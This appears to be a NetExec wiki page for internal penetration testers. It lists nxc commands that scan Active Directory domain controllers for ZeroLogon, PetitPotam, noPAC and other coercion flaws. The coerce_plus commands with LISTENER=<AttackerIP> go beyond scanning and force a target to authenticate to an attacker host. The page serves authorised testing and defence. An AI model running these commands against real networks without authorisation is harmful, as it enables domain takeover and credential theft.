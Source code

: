 ```yaml
---
description: Check if a DC is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### PetitPotam

`nxc smb <ip> -u '' -p '' -M petitpotam`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for this one
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M petitpotam`

# Scan for Coerce Vulnerabilities

You can check coerce vulnerabilities like Petitpotam, DFSCoerce, PrinterBug, MSEven, ShadowCoerce with the coerce_plus module.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If you find a vulnerability, you can use the `coerce_plus` module to exploit it.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

If you want use all exploit methods add `ALWAYS=true` option.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also use the `coerce_plus` module to check for one coerce method.

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of the 'METHOD' option you can use 'M'. Also the short name 'L' instead of the 'LISTENER' argument.\n
This also applies to the names of vulnerabilities in the method.\n
-M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error\n
-M=pr // Matches printerbug\n
-M=pe // Matches petitpotam\n
-M=dfs // Matches dfscoerce\n
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
